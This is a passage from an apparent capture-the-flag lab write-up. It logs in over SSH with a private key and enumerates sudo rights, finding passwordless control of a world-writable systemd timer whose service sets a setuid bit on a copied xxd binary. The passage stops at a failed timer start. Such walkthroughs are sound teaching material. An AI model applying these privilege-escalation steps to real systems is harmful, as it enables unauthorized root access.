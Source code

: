Now SSH to the `comte` machine using your private key
```bash
ssh -i id_rsa comte@10.10.104.81
comte@ip-10-10-104-81:~$ id
uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
```

Once we have access to the comte machine, start to search for a way to escalate your privileges
```bash
comte@ip-10-10-73-245:~$ sudo -l
User comte may run the following commands on ip-10-10-73-245:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
```bash
comte@ip-10-10-73-245:~$ find / -name  exploit.timer 2>/dev/null
/etc/systemd/system/exploit.timer
comte@ip-10-10-104-81:~$ ls -l /etc/systemd/system/exploit.*
-rw-r--r-- 1 root root 141 Mar 29  2024 /etc/systemd/system/exploit.service                                                                    
-rwxrwxrwx 1 root root  87 Mar 29  2024 /etc/systemd/system/exploit.timer   
comte@ip-10-10-73-245:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
comte@ip-10-10-73-245:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

As we can see, there is a timer in the machine that, once started, will copy the `xxd` binary to the `/opt` folder and change its permission to allow a non-root user to execute it.

```bash
comte@ip-10-10-73-245:~$ sudo /bin/systemctl daemon-reload
comte@ip-10-10-73-245:~$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.
comte@ip-10-10-73-245:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service
comte@ip-10-10-73-245:~$ 
```
